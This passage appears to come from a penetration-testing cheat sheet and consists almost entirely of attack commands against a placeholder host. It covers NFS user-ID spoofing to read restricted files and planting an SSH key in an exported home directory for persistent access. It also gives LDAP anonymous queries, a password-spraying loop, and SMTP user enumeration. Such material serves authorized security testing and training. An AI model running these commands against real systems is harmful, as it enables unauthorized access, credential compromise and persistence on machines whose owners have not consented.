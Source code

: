 #### NFS User ID Spoofing

```bash
# Check what user IDs have files on the share
ls -lan /tmp/mount/

# Create a local user with the same UID
useradd -u 1000 nfsuser

# Switch to that user
su nfsuser

# Access the mounted share with the spoofed UID
cat /tmp/mount/restricted_file.txt
```

#### SSH Key Planting (if /home is exported)

```bash
# If you find a user's home directory
mkdir -p /tmp/mount/user/.ssh
echo "ssh-rsa AAAAB3NzaC1..." > /tmp/mount/user/.ssh/authorized_keys
chmod 600 /tmp/mount/user/.ssh/authorized_keys

# SSH to target with the corresponding private key
ssh -i id_rsa user@target.com
```

## Additional Protocol Attacks

### LDAP (Port 389/636)

```bash
# Anonymous binding check
ldapsearch -x -H ldap://target.com -b "dc=domain,dc=com"

# Authenticated LDAP query
ldapsearch -x -H ldap://target.com -D "cn=binduser,dc=domain,dc=com" -w "password" -b "dc=domain,dc=com" "(objectClass=user)"

# LDAP password spraying
for u in $(cat users.txt); do ldapsearch -x -H ldap://target.com -D "$u@domain.com" -w "Spring2025!" -b "dc=domain,dc=com" -s base "(&)" 2>/dev/null && echo "Valid credential: $u:Spring2025!"; done
```

### SMTP (Port 25)

```bash
# Basic scan
nmap -sV -p 25 --script=smtp-* target.com

# SMTP user enumeration
smtp-user-enum -M RCPT -U users.txt -t target.com

# Manual SMTP commands
telnet target.com 25
EHLO example.com
MAIL FROM: <test@example.com>
RCPT TO: <admin@target.com>
```
